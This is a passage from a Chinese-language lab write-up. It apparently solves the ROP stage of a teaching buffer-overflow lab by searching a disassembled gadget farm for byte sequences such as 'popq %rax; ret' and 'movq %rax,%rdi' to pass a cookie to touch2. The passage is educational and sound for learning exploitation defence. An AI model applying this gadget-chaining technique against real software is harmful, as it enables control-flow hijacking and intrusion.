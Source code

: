 1. 把 cookie 给搞到 `%rdi` 中
2. 把 `touch2` 的地址放入栈中
3. `rtn` 以开始执行

首先第一步，我们可以找寻线索的函数有：

```
0000000000401a08 <start_farm>:
  401a08:   b8 01 00 00 00          mov    $0x1,%eax
  401a0d:   c3                      retq   

0000000000401a0e <getval_440>:
  401a0e:   b8 48 88 c7 c3          mov    $0xc3c78848,%eax
  401a13:   c3                      retq   

0000000000401a14 <addval_394>:
  401a14:   8d 87 58 94 90 90       lea    -0x6f6f6ba8(%rdi),%eax
  401a1a:   c3                      retq   

0000000000401a1b <addval_304>:
  401a1b:   8d 87 66 58 90 c3       lea    -0x3c6fa79a(%rdi),%eax
  401a21:   c3                      retq   

0000000000401a22 <addval_104>:
  401a22:   8d 87 58 c3 50 83       lea    -0x7caf3ca8(%rdi),%eax
  401a28:   c3                      retq   

0000000000401a29 <getval_341>:
  401a29:   b8 5b 48 89 c7          mov    $0xc789485b,%eax
  401a2e:   c3                      retq   

0000000000401a2f <getval_278>:
  401a2f:   b8 41 48 89 c7          mov    $0xc7894841,%eax
  401a34:   c3                      retq   

0000000000401a35 <setval_371>:
  401a35:   c7 07 49 89 c7 c3       movl   $0xc3c78949,(%rdi)
  401a3b:   c3                      retq   

0000000000401a3c <getval_313>:
  401a3c:   b8 8c fa 58 c1          mov    $0xc158fa8c,%eax
  401a41:   c3                      retq   

0000000000401a42 <mid_farm>:
  401a42:   b8 01 00 00 00          mov    $0x1,%eax
  401a47:   c3                      retq
```

结合上表，我们想要插入一个数字，肯定需要 `popq` 指令，对应下来就是 `58 - 5f` 这个范围，因为 ROP 的缘故，我们还需要后面有个 `c3`，经过搜索，可以看到在 `addval_104` 中，有一段 `58 c3`，也就是把栈中的值弹入到 `%rax` 中，记住这个地址 `0x401a24`。

现在我们要做的就是把存放在 `%rax` 的值放到 `%rdi` 中，因为这样才能当做参数传给 `touch2` 函数。根据表里的内容，继续找，这次的目标是 `48 89 c7`，也就是 `movq %rax, %rdi`，很幸运，又在 `getval_341` 中找到了，后面还正好跟了个 `c3`，赶紧记下这个地址 `0x401a2b`。
